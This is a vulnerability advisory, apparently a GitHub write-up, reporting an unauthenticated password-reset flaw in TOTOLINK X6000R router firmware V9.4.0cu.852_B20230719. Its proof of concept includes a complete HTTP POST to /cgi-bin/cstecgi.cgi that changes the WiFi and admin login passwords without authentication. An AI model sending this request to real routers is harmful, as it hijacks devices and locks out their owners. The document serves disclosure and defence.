






# TOTOLINK X6000R V9.4.0cu.852_B20230719 Incorrect Access Control

## Product Information

Product: TOTOLINK X6000R
Firmware Version: V9.4.0cu.852_B20230719
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html



## Analysis

Attackers can reset **login password** & **WIFI passwords** without authentication by visiting specific pages.

visit `/wizard.html` to reset WIFI passwords:



and then reset login password:





Result：


## POC

1.Visit /wizard.html or /phone/wizard.html to reset passwords step by step.

or 2. Sending the following data packet to directly change WiFi-2.4G password to `testtest1`, and WiFi-2.4G-5G password to `testtest2`, and login password to `testtest3`.

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 427
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/wizard.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"dhcpMtu":"1500","proto":"1","dnsMode":"0","clone":"0","cloneMac":"1C:F4:08:53:15:6D","iptvEnabled":"0","iptvVer":"5","wanStrategy":"1","vlanEnabled":"0","ssid":"WiFi-2.4G","key":"testtest1","wpaMode":"1","wifiOff":"0","hssid":"0","merge":"0","ssid5g":"WiFi-2.4G-5G","key5g":"testtest2","wpaMode5g":"1","wifiOff5g":"0","hssid5g":"0","tz":"UTC+0","loginpass":"testtest3","step_index":"5","wizard":"1","topicurl":"setWizardCfg"}
```



